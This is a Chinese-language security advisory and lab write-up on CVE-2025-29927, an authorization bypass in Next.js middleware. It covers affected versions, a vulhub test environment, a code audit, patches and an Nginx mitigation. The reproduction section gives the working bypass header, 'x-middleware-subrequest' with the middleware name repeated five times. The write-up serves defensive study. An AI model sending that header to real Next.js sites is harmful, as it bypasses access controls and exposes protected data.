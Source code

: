 # 1、漏洞信息

Next.js是一个基于React的开源框架，用于构建现代web应用程序。它提供了服务器端渲染（SSR）、静态生成（SSG）、API路由等功能，支持快速构建高性能的全栈应用。Next.js提供了开发和生产环境的优化，易于部署，广泛应用于企业级应用和内容驱动的网站。



由于 next.js应用程序使用中间件时，其函数调用 runMiddleware 会识别x-middle-subrequest请求头，用以识别是否应用了中间件，如果其值是中间所在路径，则可以完全绕过鉴权。攻击者可以利用该漏洞获取服务器敏感信息。如果站点具有缓存/CDN 系统，则可能会强制缓存 404 响应，从而使其页面不可用，严重影响其可用性 。



# 2、漏洞概述

| 漏洞名称  | Next.js中间件鉴权绕过漏洞                       |
| --------- | ----------------------------------------------- |
| 漏洞等级  | 高危                                            |
| CVE编号   | CVE-2025-29927                                  |
| CNVD编号  | 暂无                                            |
| CNNVD编号 | 暂无                                            |
| 其他编号  | 暂无                                            |
| 披露时间  | 2025-03-28                                      |
| 分数      | 9.1                                             |
| CVSS      | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N    |
| 披露链接  | https://www.cve.org/CVERecord?id=CVE-2025-29927 |



# 3、影响范围

```
11.1.4 < Next.js ≤ 13.5.6
14.0 < Next.js < 14.2.25
15.0 < Next.js < 15.2.3
```



# 4、环境搭建

```
git clone --depth 1 https://github.com/vulhub/vulhub.git
cd /opt/vulhub/next.js/CVE-2025-29927/
docker compose up -d
```

浏览器访问`http://YOUIP:3000`



# 5、代码审计

```java
const run = withTaggedErrors(asyncfunction runWithTaggedErrors(params) {
    var _params_request_body;
    const runtime = await getRuntimeContext(params);
    const subreq = params.request.headers[`x-middleware-subrequest`];
    const subrequests = typeof subreq === 'string' ? subreq.split(':') : [];
    const MAX_RECURSION_DEPTH = 5;
    const depth = subrequests.reduce((acc, curr)=>curr === params.name ? acc + 1 : acc, 0);
    if (depth >= MAX_RECURSION_DEPTH) {
        return {
            waitUntil: Promise.resolve(),
            response: new runtime.context.Response(null, {
                headers: {
                    'x-middleware-next': '1'
                }
            })
        };
    }
```

通过上述代码，可以看到会将`x-middleware-subrequest`请求头的值按照`:`分割为数组`subrequests`，继续又检查了是否包含当前中间件的名称， 如果`subrequests`中包含了当前中间件名称，则`depth`自增，当自增到第五次时，则直接返回，从而绕过下面的验证。



其中`params.name`：中间件路径标识，是中间件模块在`Next.js`构建过程中生成的逻辑标识路径，其值为`.next/server/middleware-manifest.json`文件中的值

![image-20250408152214250](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504081528066.png)



# 6、漏洞复现

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![image-20250408164619516](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504081646754.png)



# 7、解决方案

## 7.1、临时解决方案

在Nginx配置中添加：

```
location / {
  proxy_pass http://nextjs_server;
  proxy_set_header X-Middleware-Subrequest ""; # 清空危险请求头
}
```



目前官方已发布修复安全补丁

```
https://github.com/vercel/next.js/releases/tag/v15.2.3
https://github.com/vercel/next.js/releases/tag/v14.2.25
```



**[v15.2.3](https://github.com/vercel/next.js/compare/v15.2.2...v15.2.3#diff-d5a333ea4c03179010b31956bf036465e29aba56ff9af0aed581f3e3c26e514cR60)**

通过`x-middleware-subrequest-id`动态令牌加`Symbol.for`加密符号存储来区分内外请求，非法伪造的`x-middleware-subrequest`将会被删除。

![image-20250408164928588](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504081649727.png)



**[v15.2.4](https://github.com/vercel/next.js/compare/v15.2.3...v15.2.4#diff-4fd4925f7835e9415a48410b8d0f7cb47acde9e8250372c085c9f948749411e0L96)**

![image-20250408165207860](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504081652013.png)



# 8、POC

暂无



# 9、参考链接

- https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
- https://nextjs.org/blog/cve-2025-29927
- https://github.com/advisories/GHSA-f82v-jwr5-mffw
- https://www.ddpoc.com/DVB-2023-9004.html
- https://www.oscs1024.com/hd/MPS-74us-z9c5
- https://nvd.nist.gov/vuln/detail/CVE-2025-29927
- https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
- https://github.com/vercel/next.js/commit/52a078da3884efe6501613c7834a3d02a91676d2
